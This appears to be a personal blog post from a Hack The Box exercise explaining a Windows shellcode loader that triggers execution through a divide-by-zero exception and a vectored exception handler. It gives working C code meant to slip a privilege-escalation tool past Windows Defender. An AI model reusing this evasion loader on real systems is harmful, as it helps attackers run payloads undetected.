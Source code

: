 ```yaml
---
title: 1/0 = reverse shell ??
description: Deep dive into a unique shellcode loading technique
date: 2025-01-10 12:00:00 +0000
categories: [Windows,Programming]
tags: [Windows,Shellcode]
image: assets/img/visual_studio.png
---
```


In this blog post I'll explain how to load your shellcode using a really neat technique abusing VectorExceptions, a windows way of catching exceptions.

## Context
For the past few weeks I've been trying to finish my first htb fortress.
After gaining access to a windows machine, which had SeImpersonate so it was a quick win, I tried to use godpotato.exe to escalate.
And then everything to shambles. I spent a lot of time trying to get godpotato on the box and it kept getting deleted by windows defender.
Commonly used techniques to bypass AV include converting your exe to raw assembly (the shellcode) and running it through another binary (the loader).
Since I don't have the skills to create a shellcode from a binary, I used [donut](https://github.com/TheWover/donut) which works great for now !
Now I only had to create my shellcode loader :)

## VirtualAlloc ?
I decided that I wanted to create my own shellcode loader, which I did using visual studio 2022. I first used VirtualAlloc like absolutely every shellcode loader does on this planet. It's really straightforward, all you do is create executable memory, put your shellcode inside, and jump to it. I wanted to get more creative so I searched for more unique ways and I found a really funny one, vector excpetions. What I mean by funny is that the code that triggers the shellcode is the following :

```c
	int a = 1;
	int b = 0;
	int result = a / b;
```

Yes, it's the actual code in my shellcode loader ^^.
I know I know it sounds confusing at first, but don't worry it will all come together.
When your program reaches this, it will raise an exception and will iterate through a list of "vectored exception handlers", which is a fancy word for functions that will be called, one after the other before one of them can solve the exception. All we need to do is create an ExceptionHandler and register it so it will be called when an error occurs. I could go on and explain step by step but this snippet will explain it better than I :

```c
LONG WINAPI ExceptionHandler(PEXCEPTION_POINTERS pExceptionInfo) {
	// Check if it's a divide by zero exception
	if (pExceptionInfo->ExceptionRecord->ExceptionCode == EXCEPTION_INT_DIVIDE_BY_ZERO) {
		printf("[+] Exception caught, running shellcode ...\n");
		// Just in case
		if (g_shellcode == NULL || g_shellcodeSize == 0) {
			printf("[X] Shellcode error :(\n");
			return EXCEPTION_CONTINUE_SEARCH;  // Keep going to not make everything crash if shellcode is invalid
		}
		// VirtualAlloc shellcode as usual
		void* execMem = VirtualAlloc(NULL, g_shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
		if (execMem == NULL) {
			printf("[X] VirtualAlloc error (huh ?)\n");
			return EXCEPTION_CONTINUE_SEARCH;  // Keep going to not make everything crash if shellcode is invalid
		}
		memcpy(execMem, g_shellcode, g_shellcodeSize);
		((void(*)())execMem)();  // Telephone meeeee

		VirtualFree(execMem, 0, MEM_RELEASE);

		return EXCEPTION_EXECUTE_HANDLER;  // Not make an infinite loop
	}
	// Not my fault
	return EXCEPTION_CONTINUE_SEARCH;
}
```

As you can see, this will trigger only if an int divide by zero exception is raised.
I could've done this with other types of exceptions but triggering a shellcode when dividing by zero was just better ^^.

If you paid attention you realise that we need to register our ExceptionHandler, which is done like this :

```c
	if (AddVectoredExceptionHandler(1, ExceptionHandler) == NULL) {
		printf("[X] Couldn't add an Exception Handler sadly\n");
		return;
	}
```

Reading the [docs](https://learn.microsoft.com/en-us/windows/win32/api/errhandlingapi/nf-errhandlingapi-addvectoredexceptionhandler), we see that the first argument just needs to be non zero so that our ExceptionHandler will be called first.

## Done :)
Then you can just run the code and it will trigger you shellcode ! 
This technique is still recent, and I need to give credit to [this blog post](https://securityintelligence.com/x-force/using-veh-for-defense-evasion-process-injection/) for explaining the inner workings of windows Exceptions.

It gave me motivation to code my own shellcode loader, which you can checkout [here](https://github.com/0xtensho/ExtremeShellcode). 
It's useful for ctf's as it gets the shellcode through http before executing it, allowing you to upload only the loader. 
There are tons of other ways to run a shellcode, but of course the best way is the way that is still unknown by windows defender.
